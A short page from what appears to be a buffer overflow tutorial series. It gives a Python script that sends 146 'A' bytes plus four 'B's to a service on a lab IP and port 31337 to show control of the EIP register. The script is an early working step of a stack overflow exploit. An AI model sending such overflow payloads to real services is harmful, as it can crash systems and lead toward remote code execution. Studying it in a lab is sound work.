

Since we know that we can own EIP at 146 bytes, let's give it a try:
```Python
#!/usr/bin/python

import socket,sys

buffer = "A"*146 + "B"*4 
RHOST = "192.168.0.227"
RPORT = 31337

try:
    s=socket.socket(socket.AF_INET, socket.SOCK_STREAM)
    s.connect((RHOST,RPORT))
    s.send((buffer + "\r\n"))
    s.close()
    
except:
    print("Error connecting to server")
    sys.exit
```
  

As we can see, we filled the EIP with 4 Bs (42 is the hex value of B)

[<= Go Back to BOF Menu](BOFMain.md)

[<= Go Back to Main Menu](index.md)
